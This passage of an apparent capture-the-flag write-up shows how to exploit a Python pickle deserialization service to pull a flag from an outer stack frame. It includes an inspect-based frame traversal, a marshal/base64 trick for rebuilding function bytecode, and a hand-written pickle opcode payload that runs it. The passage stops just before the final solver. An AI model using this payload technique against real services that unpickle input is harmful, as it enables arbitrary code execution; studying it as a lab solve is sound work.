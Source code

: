 ```python
framedata = inspect.getmembers(frame_with_flag)
flag_value = framedata[-6][1]['flag'].flag
```

So a short cascade: `os.write(1,inspect.getmembers(inspect.getouterframes(inspect.currentframe())[3][0])[-6][1]['flag'].flag)`

We bump into a complication - the list indexing and taking a dictionary value by key are not available to us (because for example `list` module is not imported on the server). 
However there are `marshal`, `types` and `base64` availble. We can use them to serialize and deserialize bytecode of a python function.
We can make a printable string from a function and then recreate this function from string, and call it!

```python
import base64
import marshal
import types


def fun(arg):
    print('test ' + arg)

marshaled_bytecode = marshal.dumps(fun.func_code)
printable_string = base64.b64encode(marshaled_bytecode)
print(printable_string)
decoded_bytecode = base64.b64decode(printable_string)
recovered_code = marshal.loads(decoded_bytecode)
callable_function = types.FunctionType(recovered_code, {}, "")
callable_function("argument")
```

Code above presnts how we can make a printable string with a "function" and then how to recreate it. It's easy to see that this requires a cascade:

`types.FunctionType(marshal.loads(base64.b64decode("base64 code")),{},"")`

The reason for all those cascades I wrote is because they can be written as pickle very easily:

```
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'base64 code'
tRtR(dS''
))tR
```

When we deserialize this with pickle on the stack there will be our own function passed as string.

We can use this technique and create functions with missing `frames[3][0]` and `frame_data[-6][1]['flag'].flag` operations, make a base64 printable string from them and then place a deserialize code in pickle. The final solution for this task was (whole solver available [here](solver.py)):
